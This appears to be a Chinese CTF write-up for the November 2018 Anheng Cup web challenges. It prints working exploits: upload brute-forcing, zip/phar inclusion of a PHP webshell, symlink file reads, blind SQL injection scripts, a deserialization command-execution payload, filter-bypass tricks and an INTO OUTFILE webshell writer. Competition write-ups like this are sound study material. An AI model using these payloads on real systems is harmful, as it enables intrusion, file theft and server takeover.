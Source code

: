 ```yaml
---
layout: post
title: 2018年安恒杯11月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)
> [一叶飘零的wp](https://www.anquanke.com/post/id/166492#h2-5)

## web

###签到旧题-手速要快（100分）:
10月份原题，打开网站，是一个登陆页面，password字段在返回包里，抓包然后提交，然后是一个上传页面，上传shell.php.jpg即可getshell。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/签到旧题-手速要快.png)

### image_up（200分）

一个登陆页面，随便输入就能登陆，page参数存在文件包含，可以用`php://filter`读取login和upload源码
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-1.png)
关键代码在upload里
```
<?php
    $error = "";
    $exts = array("jpg","png","gif","jpeg");
    if(!empty($_FILES["image"]))
    {
        $temp = explode(".", $_FILES["image"]["name"]);
        $extension = end($temp);
        if((@$_upfileS["image"]["size"] < 102400))
        {
            if(in_array($extension,$exts)){
              $path = "uploads/".md5($temp[0].time()).".".$extension;
              move_uploaded_file($_FILES["image"]["tmp_name"], $path);
              $error = "上传成功!";
            }
        else{
            $error = "上传失败！";
        }

        }else{
          $error = "文件过大，上传失败！";
        }
    }

?>
```
首先我们要猜测上传文件的文件名，关键位置`md5($temp[0].time())`，我们上传的文件名加上时间戳进行md5生成新的文件名，因此我们需要爆破，但是这里还有一个坑，直接爆破是出不来的，题目提示：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-2.png)
经群友提示，这里需要考虑时区问题，time+8h（脑洞真大。。。），可以爆破出文件名
```
# -*- coding: UTF-8 -*-
import time
import requests
import hashlib
url = "http://101.71.29.5:10007/"
def md5(str):
  m = hashlib.md5()   
  m.update(str)    
  return m.hexdigest()

files = {
    "image":("1.jpg",open("help.zip","rb"))
}
t = int(time.time()+8*3600)
requests.post(url=url+"index.php?page=upload",files=files)
for i in range(t-200,t+200):
    path = "uploads/"+md5("1"+str(i))+".jpg"    
    status = requests.get(url=url+path).status_code    
    if status == 200:
        print path
        break
```
但是page参数会自动在最后加上`.php`
```
<?php
  if(isset($_GET['page'])){
    if(!stristr($_GET['page'],"..")){
      $page = $_GET['page'].".php";
      include($page);
    }else{
      header("Location: index.php?page=login");
    }
  }else{
    header("Location: index.php?page=login");
  }
```
所以我们还要利用伪协议取getshell，我们先将一句话木马`1.php`压缩为`1.zip`，然后重命名为`1.jpg`，上传后利用伪协议可以将zip压缩包里的木马解析
两种方法都可以：
```
http://101.71.29.5:10007/index.php?page=zip://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg%23shell

http://101.71.29.5:10007/index.php?page=phar://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg/shell
```
### interesting web（200分）
拿到题目我们看到网站功能只有登陆、注册、和找回密码，以及：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-1.png)
可以猜测，我们首选需要利用找回密码的漏洞，修改admin密码，然后上传tar包来getshell。找回密码时需要输入token，经过测试发现网站使用python写的，猜测cookie可能使用的jwt。输入admin点击找回密码，将cookie放到网上揭秘，可以拿到token修改admin密码。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-2.png)
然后我们可以上传tar包了，利用软链接可以任意文件读取，flag在/etc/passwd里
```
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg
```
### ezsql（200分）
登陆之后，查看用户信息处存在布尔盲注，很多关键词都过滤了
http://101.71.29.5:10015/user/user.php?id=if(0,1,2)
测试发现可以读文件
http://101.71.29.5:10015/user/user.php?id=if((hex(load_file(0x2f6574632f706173737764))like(0x25)),1,2)
写个脚本注入即可
```
# -*- coding: UTF-8 -*-
import string
import binascii
import requests

hex = lambda s: binascii.hexlify(s)
char = '01234567890ABCDEF'
filename = '/var/www/html/index.php'
c = ''
url = 'http://101.71.29.5:10015/user/user.php?id=if(hex(load_file(0x%s))like(0x%s),1,2)'

for _ in xrange(10000):
  for i in char:
    payload = c + i +'%'
    _url = url % (hex(filename), hex(payload))
    r = requests.get(_url, cookies={'PHPSESSID': 'obgfh6dgt8h9cfcaeus73tlni7'})
    if 'admin' in r.content:
      print '······' + payload
      c = c + i 
      break
      print c
```
得到文件内容
```
<?php 
require_once('config/sys_config.php');
require_once('header.php');
if(isset($_COOKIE['CONFIG'])){
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```
再读取config.php：
```
<?php
$config = unserialize(base64_decode($config));
if(isset($_GET['p'])){
    $p=$_GET['p'];
    $config->$p;
}
class Config{
    private $config;
    private $path;
    public $filter;
    public function __construct($config=""){
        $this->config = $config;
        echo 123;
    }
    public function getConfig(){
        if($this->config == ""){
            $config = isset($_POST['config'])?$_POST['config']:"";
        }
    }
    public function SetFilter($value){
//        echo $value;
    $value=waf_exec($value); 
        var_dump($value);
    if($this->filter){
            foreach($this->filter as $filter){
                $array = is_array($value)?array_map($filter,$value):call_user_func($filter,$value);
            }
            $this->filter = array();
        }else{
            return false;
        }
        return true;
    }
    public function __get($key){
        //var_dump($key);
    $this->SetFilter($key);
        die("");
    }
}
```
发现存在cookie反序列化漏洞，并且可以通过call_user_func执行命令
构造：
```
$sky = new Config();
$sky->filter = array('system');
echo base64_encode(serialize($sky));
```
经过序列化，base64编码后放入cookie中，可通过p参数执行任意命令。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/ezsql.png)
空格和/都被过滤了，可以用`$IFS`绕过空格，用`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`绕过/，也可以用grep命令。

### 好黑的黑名单（200分）
还是sql注入，过滤了很多东西，空格被过滤可以用%0a代替，万幸and没过滤，看wp知道可以使用`between and`注入
具体方法如下：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/好黑的黑名单.png)
然后payload如下：
```
?id=2 and (select (select database()) between 0x61 and 0x7a)
```
因为单引号被过滤所以使用十六进制，然后写个脚本跑吧。

### write a shell（300分）
继续注入，into outfile，select等关键字经过waf会变为@，所以可以利用该逻辑问题构造@，具体方法百度吧，我也不会。
payload：
```
set |s=concat(CHAR(115, 101, 108, 101, 99, 116, 32, 39, 60, 63, 112, 104, 112, 32, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62, 39, 32, 105, 110, 116, 111, 32, 111, 117, 116, 102, 105, 108, 101, 32, 39, 47, 118, 97, 114, 47, 119, 119, 119, 47, 104, 116, 109, 108, 47, 102, 97, 118, 105, 99, 111, 110, 47, 50, 46, 112, 104, 112, 39));PREPARE s1 FROM |s;EXECUTE s1;

//select '<?php eval($_POST[x]);?>' into outfile '/var/www/html/favicon/11.php'
```
主要思路就是先load_file waf.php，然后想办法绕waf。


[1]: https://www.linkedbyx.com/home
[2]: https://www.anquanke.com/post/id/166492#h2-5